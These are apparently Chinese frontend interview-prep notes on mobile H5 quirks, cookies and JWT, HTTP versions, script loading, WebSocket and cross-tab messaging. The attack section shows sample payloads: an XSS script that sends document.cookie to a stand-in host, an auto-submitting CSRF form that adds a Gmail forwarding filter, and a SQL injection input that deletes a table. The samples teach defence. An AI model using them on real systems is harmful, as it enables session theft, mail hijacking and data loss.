

# 06-知识广度 - 从前端到全栈

## 01: 章节介绍

### 开始

前端工程师有很多，而是技能全面、独当一面的前端工程师到哪里都是“香饽饽”，企业争抢。所以，技术广度将决定你的稀缺性，以及未来的发展空间。本章将通过多个面试题，讲解前端面试常考的技术广度问题，涉及前端、移动端、服务端等全流程。

### 为何要考察

现代前端工程师已经不单单是开发页面了，你可能需要去开发移动端、服务端。或者和他们有亲密的合作，你需要了解他们的运作流程。

企业想要招聘到一些全能型的工程师，能在工作中串通上下流程，而不是只做开发。

### 考察重点

- 移动端相关支持
- HTTP 网路相关支持
- Nodejs 相关支持

### 注意事项

- 不会从 0 基础讲起，基础不熟悉的可以给我提问
- 广，则不能深

### 看几个问题

- HTTP 和 WebSocket 有什么区别
- 前端攻击的常用手段有哪些？如何预防
- 请描述 koa2 的洋葱模型

## 02：移动端 H5 点击有 300ms 延迟，该如何解决

### 题目

移动端 click 300ms 延迟，如何解决

### 背景

智能手机开始流行的前期，浏览器可以点击缩放（double tap to zoom）网页。这样在手机上就可以浏览 PC 网页，很酷炫。


浏览器为了分辨 click 还是“点击缩放”，就强行把 click 时间延迟 300ms 触发。

### 初期解决方案

[FastClick](https://www.npmjs.com/package/fastclick) 专门用于解决这个问题。

```js
// FastClick 使用非常简单
window.addEventListener(
  'load',
  function () {
    FastClick.attach(document.body)
  },
  false,
)
```

它的内部原理是

- 监听 `touchend` 事件 （`touchstart` `touchend` 会先于 `click` 事件被触发）
- 通过 [DOM 自定义事件](https://developer.mozilla.org/zh-CN/docs/Web/API/CustomEvent) 模拟一个 click 事件
- 把 300ms 之后触发的 click 事件阻止掉

### 现代浏览器的改进

随着近几年移动端响应式的大力发展，移动端网页和 PC 网页有不同的设计，不用再缩放查看。

这 300ms 的延迟就多余了，现代浏览器可以通过禁止缩放来取消这 300ms 的延迟。

- Chrome 32+ on Android
- iOS 9.3

```html
<meta name="viewport" content="width=device-width" />
```

### 答案

- 原因：点击缩放（double tap to zoom）网页
- 可使用 FastClick 解决
- 现代浏览器可使用 `width=device-width` 规避

## 03:扩展：Retina 屏幕的 1px 像素，如何实现

### 题目

Retina 屏 1px 像素问题，如何实现

### 介绍

该问题通常用于考察你是否做过移动端 h5 项目。<br>
如果你能知道这个问题，并且答出来，知道前因后果，证明你有过 h5 开发经验。<br>
否则就说明你没有 h5 的任何开发经验，尤其是你如果都不知道这个事情，那就更加说明这一点。

### 普通的 `1px`

如果仅仅使用 css 的 `1px` 来设置 border ，那可能会出现比较粗的情况。<br>
因为，有些手机屏幕的 DPR = 2 ，即 `1px` 它会用两个物理像素来显示，就粗了。

```css
#box {
  padding: 10px 0;
  border-bottom: 1px solid #eee;
}
```

如下图，上面是微信 app 的 border ，下面是 `1px` 的 border ，有明显的区别。显得很粗糙，很不精致，设计师不会允许这样的页面发布上线的。


PS：你不能直接写 `0.5px` ，浏览器兼容性不好，渲染出来可能还是 `1px` 的效果。

### 使用 `transform` 缩小

我们可以使用 css 伪类 + `transform` 来优化这一问题。即把默认的 `1px` 宽度给压缩 0.5 倍。

```css
#box {
  padding: 10px 0;
  position: relative;
}
#box::before {
  content: '';
  position: absolute;
  left: 0;
  bottom: 0;
  width: 100%;
  height: 1px;
  background: #d9d9d9;
  transform: scaleY(0.5);
  transform-origin: 0 0;
}
```

如下图，上面是微信 app 的 border ，下面是优化之后的 border ，两者粗细就一致了。


### 连环问：如果有 `border-radius` 怎么办

可以使用 `box-shadow` 设置

- X 偏移量 `0`
- Y 偏移量 `0`
- 阴影模糊半径 `0`
- 阴影扩散半径 `0.5px`
- 阴影颜色

```css
#box2 {
  margin-top: 20px;
  padding: 10px;
  border-radius: 5px;
  /* border: 1px solid #d9d9d9; */
  box-shadow: 0 0 0 0.5px #d9d9d9;
}
```

## 04: HTTP 请求中 token 和 cookie 有什么区别-cookie 和 session

### 题目

cookie 和 token 有何区别

### cookie

- http 请求是无状态的，即每次请求之后都会断开链接。
- 所以，每次请求时，都可以携带一段信息发送到服务端，以表明客户端的用户身份。
- 服务端也也可以通过 `set-cookie` 向客户端设置 cookie 内容。
- 由于每次请求都携带 cookie ，所以 cookie 大小限制 4kb 以内。
- 默认有跨域限制：不可跨域共享、传递 Cookie


### cookie 作为本地存储

- 前些年大家还常用 cookie 作为本地存储，这并不完全合适。
- 所以后来 html5 增加了 `localStorage` 和 `sessionStorage` 作为本地存储。

### cookie 跨域限制

浏览器存储 cookie 是按照域名区分的，在浏览器无法通过 JS `document.cookie` 获取到其他域名的 cookie 。

http 请求传递 cookie 默认有跨域限制。如果想要开启，需要客户端和服务器同时设置允许

- 客户端：使用 fetch 和 XMLHttpRequest 或者 axios 需要配置 `withCredentials`
- 服务端：需要配置 header `Access-Control-Allow-Credentials`

### 现代浏览器禁用第三发 cookie

- 和跨域限制不同，这里是：禁止网页引入的第三方 JS 设置 Cookie
- 打击第三方广告，保护用户个人隐私。
- 新增属性 SameSite: Strict/Lax/None 供用户自己选择

例如一个电商网站 A 引用了淘宝广告的 js

- 你访问 A 时，淘宝 js 设置 cookie ，记录下商品信息
- 你再次访问淘宝时，淘宝即可获取这个 cookie 内容
- 再和你的个人信息（也在 cookie 里）一起发送到服务端，这样就知道了你看了哪个商品

### cookie 和 session

- cookie 用于登录验证，存储用户标识（如 userId）
- session 在服务端，存储用户详细信息，和 cookie 信息一一对应
- cookie 和 session 是常见登录验证解决方案

cookie 用途非常广泛，最常见的就是登录。

使用 cookie 做登录校验

- 前端输入用户名密码，传给后端
- 后端验证成功，返回信息时 set-cookie
- 接下来所有接口访问，都自动带上 cookie （浏览器的默认行为， http 协议的规定）

什么是 session ？

- cookie 只存储 userId ，不去暴露用户信息
- 用户信息存储在 session 中 —— session 就是服务端的一个 hash 表

### token

token 和 cookie 一样，也是一段用于客户端身份验证的字符串，随着 http 请求发送

- cookie 是 http 协议规范的，而 token 是自定义的，可以用任何方式传输（如 header body query-string 等）
- token 默认不会在浏览器存储
- token 没有跨域限制

所以，token 很适合做跨域或者第三方的身份验证。

### token 和 JWT

JWT === JSON Web Token

JWT 的过程

- 前端输入用户名密码，传给后端
- 后端验证成功，返回一段 token 字符串 - 将用户信息加密之后得到的
- 前端获取 token 之后，存储下来
- 以后访问接口，都在 header 中带上这段 token


### 答案

- cookie：http 规范；有跨域限制；可存储在本地；可配合 session 实现登录
- token：自定义标准；不在本地存储；无跨域限制；可用于 JWT 登录

### 划重点

- cookie 的知识点很多，对于 HTTP 也很重要
- Session 存在的价值
- token 和 cookie 要对比理解，否则容易混淆

### 连环问：session 和 JWT 比较，你更推荐哪个？

#### Session 优点

- 原理简单，易于学习
- 用户信息存储在服务端，可以快速封禁某个登录的用户 —— 有这方强需求的人，一定选择 Session

#### Session 的缺点

- 占用服务端内存，有硬件成本
- 多进程、多服务器时，不好同步 —— 一般使用第三方 redis 存储 ，成本高
- 跨域传递 cookie ，需要特殊配置

#### JWT 的优点

- 不占用服务器内存
- 多进程、多服务器，不受影响
- 不受跨域限制

#### JWT 的缺点

- 无法快速封禁登录的用户（用户信息存储在客户端）
- 万一服务端秘钥被泄露，则用户信息全部丢失
- token 信息一般大于 cookie, 会增加请求的数据量

#### 答案

- 如果严格管理用户信息的需求（保密、快速封禁等）推荐 session
- 如果没有特殊要求，则推荐 JWT(如创业初期的网站)

### 连环问：如何实现 SSO 单点登录

#### 基于 cookie

- cookie 默认是跨域不共享，但是有些情况下可以设置为共享
- 主域名相同下，可以设置为共享。如 `wenku.baidu.com` `tieba.baidu.com`
- 设置 cookie domain 设置为主域名，即可共享 cookie

简单的，如果业务系统都在同一主域名下，比如 `wenku.baidu.com` `tieba.baidu.com` ，就好办了。
可以直接把 cookie domain 设置为主域名 `baidu.com` ，百度也就是这么干的。

#### SSO

[单系统登录机制](https://www.cnblogs.com/ywlaker/p/6113927.html)

[单点登录(SSO)看这一篇就够了！❤️ 这次不慌了](https://juejin.cn/post/7044328327762411534)

- 主域名不一样,则 cookie 无法共享
- 可以使用 SSO 技术

复杂一点的，滴滴这么潮的公司，同时拥有 `didichuxing.com` `xiaojukeji.com` `didiglobal.com` 等域名，种 cookie 是完全绕不开的。需要使用 SSO 技术方案


#### OAuth2

[最详细的一篇关于 Oauth2 的认证模式](https://juejin.cn/post/6949929792502235149)

上述 SSO 是 oauth 的实际案例，其他常见的还有微信登录、github 登录等。即，当设计到第三方用户登录校验时，都会使用 OAuth2.0 标准。
流程参考 [RFC 6749](https://tools.ietf.org/html/rfc6749)

### 答案

- 主域名相同，则课共享 cookie
- 主域名不同，则需要使用 SSO

## 05: HTTP 协议和 UDP 协议有什么区别

### 题目

HTTP 和 UDP 有何区别

### 网络协议


- HTTP 协议在应用层，直接被程序使用
- TCP 和 UDP 在传输层，底层
- 严格来说，应该拿 TCP 和 UDP 进行比较

### TCP 协议

- 有链接(三次握手)
- 有断开(四次挥手)
- 稳定传输

### UDP 协议

- 无连接，无断开
- 不稳定传输，但是效率高
- 如：视频会议、语音通话

UDP 是一种无连接的、不可靠的传输层协议。而 TCP 需要连接、断开连接，参考“三次握手、四次挥手”。

不需要连接，所以 UDP 的效率比 TCP 高。

虽然 UDP 从协议层是不稳定的，但随着现代网络硬件环境的提升，也能保证绝大部分情况下的稳定性。所以，UDP 一直处于被发展的趋势。

例如视频会议、语音通话这些允许中段、不完全保证持续连接的场景，又需要较高的传输效率，就很适合 UDP 协议。

### 答案

- HTTP 在应用层，而 UDP 和 TCP 在传输层
- HTTP 是有连接、有断开的，稳定传输
- UDP 是无连接、无断开的，不稳定传输，但是效率高

## 06: 连环问：http 协议 1.0 1.1 2.0 区别

### http 1.0

- 最基础的 http 协议
- 支持基本的 GET POST 方法

### http 1.1

- 引入更多的缓存策略，如 `cache-control` `E-tag`
- 长链接，默认开启 `Connection: keep-alive` ，一次 TCP 连接多次 http 请求
- 断点续传，状态吗 `206`
- 增加新的 method `PUT` `DELETE` 等，可用于 Restful API

### http2.0

- header 压缩，以减少体积
- 多路复用，一个 TCP 连接中可以多个 http 并行请求。拼接资源（如雪碧图、多 js 拼接一个）将变的多余
- 服务器端推送

### HTTP 3.0

- 基于 google 的 QUIC 协议，而 quic 协议是使用 udp 实现的
- 减少了 tcp 三次握手时间，以及 tls 握手时间
- 解决了 http 2.0 中前一个 stream 丢包导致后一个 stream 被阻塞的问题
- 优化了重传策略，重传包和原包的编号不同，降低后续重传计算的消耗
- 连接迁移，不再用 tcp 四元组确定一个连接，而是用一个 64 位随机数来确定这个连接
- 更合适的流量控制

## 07: 什么是 HTTPS 中间人攻击，如何预防

### 题目

什么是 https 中间人攻击，如何预防？

### 复习：https 加密原理

http 是明文传输，传输的所有内容（如登录的用户名和密码），都会被中间的代理商（无论合法还是非法）获取到。

http + TLS/SSL = https ，即加密传输信息。只有客户端和服务端可以解密为明文，中间的过程无法解密。


### 中间人攻击

中间人攻击，就是黑客劫持网络请求，伪造 CA 证书。


解决方案：使用浏览器可识别的，正规厂商的证书（如阿里云），慎用免费证书。


### 划重点

- HTTPS 加密过程

## 08: defer 和 async

### 题目

`<script>` 的 defer 和 async 属性有何区别

### 答案

- `<script src="xxx.js">` 当解析到该标签时，会暂停 html 解析，并触发 js 下载、执行。然后再继续 html 解析。
- `<script defer src="xxx.js">` js 下载和 html 解析可并行。等待 html 解析完之后再执行 js 。
- `<script async src="xxx.js">` js 下载和 html 解析可并行，下载完之后暂停 html 解析，执行 js 。然后再继续 html 解析。



### 连环问：preload prefetch dns-prefetch 的区别

- preload 表示资源在当前页面使用，浏览器会**优先**加载
- prefetch 表示资源可能在**未来的页面**（如通过链接打开下一个页面）使用，浏览器将在**空闲时**加载

```html
<head>
  <meta charset="utf-8" />
  <title>JS and CSS preload</title>

  <!-- preload -->
  <link rel="preload" href="style.css" as="style" />
  <link rel="preload" href="main.js" as="script" />

  <!-- prefetch -->
  <link rel="prefetch" href="other.js" as="script" />

  <!-- 引用 css -->
  <link rel="stylesheet" href="style.css" />
</head>

<body>
  <h1>hello</h1>

  <!-- 引用 js -->
  <script src="main.js" defer></script>
</body>
```

### 连环问：dns-prefetch 和 preconnect 有什么作用？

一个 http 请求，第一步就是 DNS 解析得到 IP ，然后进行 TCP 连接。连接成功后再发送请求。

dns-prefetch 即 DNS 预查询，preconnect 即预连接。<br>
当网页请求**第三方**资源时，可以提前进行 DNS 查询、TCP 连接，以减少请求时的时间。

```html
<html>
  <head>
    <link rel="dns-prefetch" href="https://fonts.gstatic.com/" />
    <link rel="preconnect" href="https://fonts.gstatic.com/" crossorigin />
  </head>
  <body>
    <p>hello</p>
  </body>
</html>
```

#### 答案：

- prefetch 是资源预获取（和 preload 相关）
- dnd-prefetch 是 DNS 预查询（和 preconnect 相关）

## 09：前端攻击手段有哪些，该如何预防

### 题目

你所了解的前端攻击手段有哪些，该如何预防？

### XSS

Cross Site Scripting 跨站脚本攻击

用户通过某种方式（如输入框、文本编辑器）输入一些内容，其中带有攻击代码（JS 代码）。<br>
该内容再显示时，这些代码也将会被执行，形成了攻击效果。

```html
<!-- 例如用户提交的内容中有： -->
<script>
  var img = document.createElement('img')
  img.src = 'http://xxx.com/api/xxx?userInfo=' + document.cookie // 将 cookie 提交到自己的服务器
</script>
```

**最简单的解决方式：替换特殊字符**

```js
const newStr = str.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
```

也可以使用第三方工具，例如

- [https://www.npmjs.com/package/xss](https://www.npmjs.com/package/xss)
- [https://www.npmjs.com/package/escape-html](https://www.npmjs.com/package/escape-html)

现代框架默认会屏蔽 XSS 攻击，除非自己手动开启

- Vue `v-html`
- React `dangerouslySetInnerHTML`

### CSRF

Cross-site request forgery 跨站请求伪造

请看下面的故事

- 小明登录了 Gmail 邮箱，收到一封广告邮件 “转让比特币，只要 998”
- 小明抱着好奇的心态点开看了看，发现是个空白页面，就关闭了

但此时，攻击已经完成了。黑客在这个空白页面设置了 js 代码，会让小明的邮件都转发到 `hacker@hackermail.com` 。<br>
因为小明已经登录了 Gmail ，有了 Gmail 的 cookie 。所以再去请求 Gmail API 就会带着 cookie ，就有可能成功。

```html
<form
  method="POST"
  action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf"
  enctype="multipart/form-data"
>
  <input type="hidden" name="cf2_emc" value="true" />
  <input type="hidden" name="cf2_email" value="hacker@hakermail.com" />
  .....
  <input type="hidden" name="irf" value="on" />
  <input type="hidden" name="nvp_bu_cftb" value="Create Filter" />
</form>
<script>
  document.forms[0].submit()

  // PS：有些是 post 请求，有些是 get 请求
  //     get 请求如果用 img.src 还可以规避跨域，更加危险
</script>
```

邮件经常用来接收验证码，这是很危险的事情。<br>
当然了，后来 Gmail 修复了这个漏洞。但新的故事仍在不断发生中。

CSRF 的过程

- 用户登录了 `a.com` ，有了 cookie
- 黑客引诱用户访问 `b.com` 网页，并在其中发起一个跨站请求 `a.com/api/xxx`
- `a.com` API 收到 cookie ，误以为是真实用户的请求，就受理了

CSRF 的预防

- 严格的跨域请求限制,如判断 referrer(请求来源)
- 为 cookie 设置 `SameSite` 不随跨域请求被发送 `Set-Cookie: key1=val1; key2=val2; SameSite=Strict;`
- 关键接口使用短信验证码等双重验证

### 点击劫持 Clickjacking

小明被诱导到一个钓鱼网站，点击了一个按钮，其实已经关注了慕课网双越老师。因为他可能已经登录了慕课网。<br>
这可以是关注，也可以是付款转账等其他危险操作。


点击劫持的原理：黑客在自己的网站，使用隐藏的 `<iframe>` 嵌入其他网页，诱导用户按顺序点击。

- 使用 JS 预防

  ```js
  if (top.location.hostname !== self.location.hostname) {
    alert('您正在访问不安全的页面，即将跳转到安全页面！')
    top.location.href = self.location.href
  }
  ```

- 增加 http header `X-Frame-Options:SAMEORIGIN` ，让 `<iframe>` 只能加载同域名的网页。

PS：点击劫持，攻击那些需要用户点击操作的行为。CSRF 不需要用户知道，偷偷完成。

### DDoS

- Distributed denial-of-service 分布式拒绝服务
- 手段：分布式的、大规模的流量访问，使服务器瘫痪
- 预防：软件层不好做，需要硬件预防（如阿里云 WAF）

通过大规模的网络流量淹没目标服务器或其周边基础设施，以破坏目标服务器、服务或网络正常流量的恶意行为。<br>
类似于恶意堵车，妨碍正常车辆通行。

网络上的设备感染了恶意软件，被黑客操控，同时向一个域名或者 IP 发送网络请求。因此形成了洪水一样的攻击效果。<br>
由于这些请求都来自分布在网络上的各个设备，所以不太容易分辨合法性。

DDoS 的预防：软件层面不好做，可以选择商用的防火墙，如[阿里云 WAF](https://www.aliyun.com/product/waf?spm=5176.7967425.J_8058803260.34.3d017748VkTlhL)。

PS：阮一峰的网站就曾遭遇过 DDoS 攻击 [https://www.ruanyifeng.com/blog/2018/06/ddos.html](https://www.ruanyifeng.com/blog/2018/06/ddos.html)

### SQL 注入

- 手段：黑客提交内容时写入 SQL 语句，破坏数据库
- 预防：处理输入的内容，替换特殊字符

普通的登录方式，输入用户名 `zhangsan` 、密码 `123` ，然后服务端去数据库查询。<br>
会执行一个 sql 语句 `select * from users where username='zhangsan' and password='123'` ，然后判断是否找到该用户。

如果用户输入的是用户名 `' delete from users where 1=1; --` ，密码 `'123'`<br>
那生成的 sql 语句就是 `select * from users where username='' delete from users where 1=1; --' and password='123'`<br>
这样就会把 `users` 数据表全部删除。

防止 SQL 注入：服务端进行特殊字符转换，如把 `'` 转换为 `\'`

### 答案

- XSS
- CSRF
- 点击劫持
- DDoS
- SQL 注入

### 划重点

- 预防攻击，要各司其职，而不要依赖于其他角色（如后端）

## 10: WebSocket 和 HTTP 协议有什么区别

### 题目

webSocket 和 http 协议有何区别？有和应用场景？

### WebSocket

- 支持端对端通讯
- 可以由 client 发起，也可以由 server 发起
- 用于：消息通知，直播间讨论区，聊天室，协同编辑

### webSocket 简介

webSocket 和 http 都是应用层，支持端对端的通讯。可以由服务端发起，也可以由客户端发起。<br>
代码参考 ws-server 中 webSocket1.html webSocket2.html

#### 服务端

```javascript
const { WebSocketServer } = require('ws')
const wsServer = new WebSocketServer({ port: 3000 })
wsServer.on('connection', (ws) => {
  console.info('connected')

  ws.on('message', (msg) => {
    console.info('收到了信息', msg.toString())

    // 服务端向客户端发送信息
    setTimeout(() => {
      ws.send('服务端已经收到了信息: ' + msg.toString())
    }, 2000)
  })
})
```

#### 客户端

```html
// webSocket1.html<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>websocket</title>
  </head>
  <body>
    <p>websocket</p>
    <button id="btn-send">发送消息</button>

    <script>
      const ws = new WebSocket('ws://127.0.0.1:3000')
      ws.onopen = () => {
        console.info('opened')
        ws.send('client opened')
      }
      ws.onmessage = (event) => {
        console.info('收到了信息', event.data)
      }

      const btnSend = document.getElementById('btn-send')
      btnSend.addEventListener('click', () => {
        console.info('clicked')
        ws.send('当前时间' + Date.now())
      })
    </script>
  </body>
</html>
```

场景：消息通知，直播讨论区，聊天室，协同编辑

### webSocket 建立连接

- 会先发起一个 `http` 请求，根服务端建立连接。
- 连接成功之后再升级为 `webSocket 协议`，然后再通讯。


### webSocket 和 http 区别

- 协议名称不同 `ws` 和 `http`
- `http` 一般只能浏览器发起请求，`webSocket` 可以双端发起请求
- `webSocket` 无跨域限制
- `webSocket` 通过 `send` 和 `onmessage` 进行通讯，`http` 通过 `req` 和 `res` 通讯

PS：`ws` 可以升级为 `wss` 协议，像 `http` 升级到 `https` 一样，增加 `SSL` 安全协议。

```js
import { createServer } from 'https'
import { readFileSync } from 'fs'
import { WebSocketServer } from 'ws'

const server = createServer({
  cert: readFileSync('/path/to/cert.pem'),
  key: readFileSync('/path/to/key.pem'),
})
const wss = new WebSocketServer({ server })
```

### 扩展

PS：如果做项目开发，推荐使用 [socket.io](https://www.npmjs.com/package/socket.io)，API 更方便。

```js
io.on('connection', (socket) => {
  // emit an event to the socket
  socket.emit('request' /* … */)
  // emit an event to all connected sockets
  io.emit('broadcast' /* … */)
  // listen to the event
  socket.on('reply', () => {
    /* … */
  })
})
```

## 11：连环问：webSocket 和长轮询（长连接）的区别-扩展-创建简易聊天室

- http 长轮询 - 客户端发起 http 请求，server 不立即返回，等待有结果再返回。这期间 TCP 连接不会关闭，阻塞式。（需要处理 timeout 的情况）
- webSocket - 客户端发起请求，服务端接收，连接关闭。服务端发起请求，客户端接收，连接关闭。非阻塞。


#### 注意：

- `HTTP 长轮询`，需要处理 `timeout` ，即 `timeout` 之后重新发送请求

#### 聊天室

服务端

```javascript
const { WebSocketServer } = require('ws')
const wsServer = new WebSocketServer({ port: 3000 })
const list = new Set()

wsServer.on('connection', (curWs) => {
  console.info('connected')
  // 这里，不能一直被 add 。实际使用中，这里应该有一些清理缓存的机制，长期用不到的 ws 要被 delete
  list.add(curWs)
  curWs.on('message', (msg) => {
    console.info('received message', msg.toString())
    // 传递给其他客户端
    list.forEach((ws) => {
      if (ws === curWs) return
      ws.send(msg.toString())
    })
  })
})
```

#### 客户端

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>websocket</title>
  </head>
  <body>
    <p>websocket page 1</p>
    <button id="btn-send">发送消息</button>

    <script>
      const ws = new WebSocket('ws://127.0.0.1:3000')
      ws.onopen = () => {
        console.info('opened')
        ws.send('client1 opened')
      }
      ws.onmessage = (event) => {
        console.info('client1 received', event.data)
      }

      const btnSend = document.getElementById('btn-send')
      btnSend.addEventListener('click', () => {
        console.info('clicked')
        ws.send('client1 time is ' + Date.now())
      })
    </script>
  </body>
</html>
```

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>websocket</title>
  </head>
  <body>
    <p>websocket page 2</p>
    <button id="btn-send">发送消息</button>

    <script>
      const ws = new WebSocket('ws://127.0.0.1:3000')
      ws.onopen = () => {
        console.info('opened')
        ws.send('client2 opened')
      }
      ws.onmessage = (event) => {
        console.info('client2 received', event.data)
      }

      const btnSend = document.getElementById('btn-send')
      btnSend.addEventListener('click', () => {
        console.info('clicked')
        ws.send('client2 time is ' + Date.now())
      })
    </script>
  </body>
</html>
```

## 12: 从输入 URL 到网页显示的完整过程

### 题目

从输入 url 到显示页面的完整过程

### 特别注意

现在浏览器经过多年发展和优化，加载和渲染机制已经非常复杂，我们只能讲解基本的流程。不可较真细节。

### 步骤

- 网络请求
- 解析
- 渲染页面

### 网络请求

- DNS 解析，根据域名获得 IP 地址
- 建立 TCP 连接 “三次握手”
- 发送 http 请求
- 接收请求响应，获得网页 html 代码

### 继续请求静态资源

- 解析 HTML 过程中，遇到静态资源还会继续发起网络请求
- JS CSS 图片 视频等
- 注意：静态资源可能会有强缓存，此时不必请求


### 解析: 字符串->结构化数据

> html css 等源代码是字符串形式，需要解析为特定的数据结构，才能被后续使用。

过程

- html 构建 DOM 树
- css 构建 CSSOM（即 style tree）
- 两者结合形成 Render tree （包括尺寸、定位等）


解析过程很复杂

- css 包括：

  - 内嵌 css `<style>`
  - 外链 css `<link>`

- 解析到 `<script>` 加载，并有可能修改 DOM 树和 render tree 。

  - 内嵌 js
  - 外链 js

  PS：加载和执行 `<script>` 的情况比较多，如有 `defer` `async` 属性，就不一样。

- 解析到 `` 等媒体文件，也要并行加载。加载完成后再渲染页面。

综上，为了避免不必要的情况，要遵守以下规则(**优化解析**)

- css 尽量放在 `<head>` 中，不要异步加载 css
- js 尽量放在 `<body>` 最后(或者合理使用 `defer`和 `async`)，不要中途加载、执行 js
- `` 等媒体文件尽量限制尺寸(`width`、`height`)，防止渲染时重绘页面

### 渲染页面

通过 render tree 绘制页面。

绘制完成之后，还要继续执行异步加载的资源

- 计算各个 DOM 的尺寸、定位，最后绘制页面
- 异步的 css ，重新渲染页面
- 异步的 js(参考 `defer` `sync`) ，执行（可能重新渲染页面）
- 异步加载的图片等，可能重新渲染页面（根据图片尺寸）

最后页面渲染完成。

### 答案

- 网络请求
  - DNS 解析
  - TCP 连接
  - HTTP 请求和响应
- 解析
  - DOM 树
  - CSSOM 树
  - Render tree
- 渲染页面
  - 可能重绘页面

### 划重点

- 现代浏览器的渲染机制非常复杂，不要纠结细节
- 要深入理解 “字符串” -> ”结构化数据“ 这一步
- 要能画出流畅图

## 13: 连环问：什么是重绘 repaint 和重排 reflow ，有何区别

### 动态网页，随时都会重排、重绘

页面渲染完成之后，随着异步加载和用户的操作，会随时发生 repaint 或者 reflow 。例如

- 各种网页动画
- modal dialog 弹框
- 页面元素的新增、删除和隐藏

结论：**重排的影响更大**

- **重绘 repaint** ：某些元素的外观被改变，但尺寸和定位不变，例如：元素的背景色改变。
- **重排 reflow** ：重新计算尺寸和布局，可能会影响其他元素的位置。如一个元素高度变化，导致所有元素都下移。

重绘不一定重排，但重排一定会导致重绘。<br>
所以，要尽量避免重排。

### 减少重排的方法

- 集中修改样式，或直接使用 `class`
- DOM 操作前先使用 `display: none` 脱离文档流
- 使用 BFC ，不影响外部的元素
- 对于频繁触发的操作（`resize` `scroll` 等）使用节流和防抖
- 使用 `createDocumentFragment` 进行批量 DOM 操作
- 优化动画，如使用 `requestAnimationFrame` 或者 CSS3（可启用 GPU 加速）

### 连环问：触发 css BFC 的条件

### BFC

- BFC - Block Formatting Context 块格式化上下文
- 内部元素无论如何改动，都不会影响其他元素的位置

### 触发 BFC 的条件

- 根节点 html
- 设置 float: `left` `right`
- 设置 overflow: `auto` `scroll` `hidden`
- 设置 display: `inline-block` `table` `table-cell` `flex` `grid`
- 设置 position: `absolute` `fixed`

## 14: 如何实现网页多标签 tab 通讯

### 题目

网络多标签之间如何通讯？<br>
例如打开两个 chrome 标签，一个访问列表页，一个访问详情页。在详情页修改了标题，列表页也要同步过来。

### webSocket

通过 webSocket 多页面通讯，无跨域限制。

### localStorage

(localStorage 跨域不共享)

**同域**的两个页面，可以通过 localStorage 通讯。A 页面可以监听到 B 页面的数据变化。

```js
// list 页面
window.addEventListener('storage', (event) => {
  console.log('key', event.key)
  console.log('newValue', event.newValue)
})

// detail 页面
localStorage.setItem('changeInfo', 'xxx')
```

### SharedWorker

- SharedWorker 是 WebWorker 的一种
- WebWorker 可开启**子进程**执行 JS,但是不能操作 DOM
- Sharedworker 可单独开启一个进程，用于**同域**页面通讯

Javascript 是单线程的，而且和页面渲染线程互斥。所以，一些计算量大的操作会影响页面渲染。<br>

[WebWorker](https://developer.mozilla.org/zh-CN/docs/Web/API/Web_Workers_API/Using_web_workers) 可以 `new Worker('xxx.js')` 用来进行 JS 计算，并通过 `postMessage` 和 `onmessage` 和网页通讯。<br>
但这个 worker 是当前页面专有的，不得多个页面、iframe 共享。

PS：WebWorker 专用于 JS 计算，不支持 DOM 操作。

[SharedWorker](https://developer.mozilla.org/zh-CN/docs/Web/API/SharedWorker) 可以被同域的多个页面共享使用，也可以用于通讯。<br>
源码参考 msg-sharedWork-list.html 和 msg-sharedWork-detail.html 。注意，worker 中的日志需要 `chrome://inspect` 中打开控制台查看。

PS：注意浏览器兼容性，不支持 IE11

```javascript
/**
 * @description for SharedWorker
 * @author 双越老师
 */

const set = new Set()
onconnect = (event) => {
  const port = event.ports[0]
  set.add(port)

  // 接收信息
  port.onmessage = (e) => {
    // 广播消息
    set.forEach((p) => {
      if (p === port) return
      p.postMessage(e.data)
    })
  }
  // 发送信息
  port.postMessage('worker.js done')
}
```

```html
<!-- msg-sharedWork-list.html -->
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>list</title>
  </head>
  <body>
    <p>SharedWorker message - list page</p>

    <script>
      const worker = new SharedWorker('./worker.js')
      worker.port.onmessage = (e) => console.info('list', e.data)
    </script>
  </body>
</html>
```

```html
<!-- msg-sharedWork-detail.html -->
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>detail</title>
  </head>
  <body>
    <p>SharedWorker message - detail page</p>
    <button id="btn1">修改标题</button>

    <script>
      const worker = new SharedWorker('./worker.js')

      const btn1 = document.getElementById('btn1')
      btn1.addEventListener('click', () => {
        console.log('clicked')
        worker.port.postMessage('detail go...')
      })
    </script>
  </body>
</html>
```

### BroadcastChannel

标签页 1 控制台输入

```javascript
new BroadcastChannel('juejin').onmessage = (e) => console.log(e.data)
```

标签页 2 控制台输入

```javascript
new BroadcastChannel('juejin').postMessage({ value: 'hello' })
```

返回标签页 1 控制台发现打印结果

```shell
{value: "hello"}
```

通信成功！

### 答案

- webSocket 需要服务端参与，但不限制跨域
- localStorage 简单易用
- SharedWorker 本地调试不太方便，考虑浏览器兼容性
- BroadcastChannel

### 连环问：网页和 iframe 如何通讯

#### 代码演示

除了上述几个方法，iframe 通讯最常用 [window.postMessage](https://developer.mozilla.org/zh-CN/docs/Web/API/Window/postMessage) ，支持跨域。

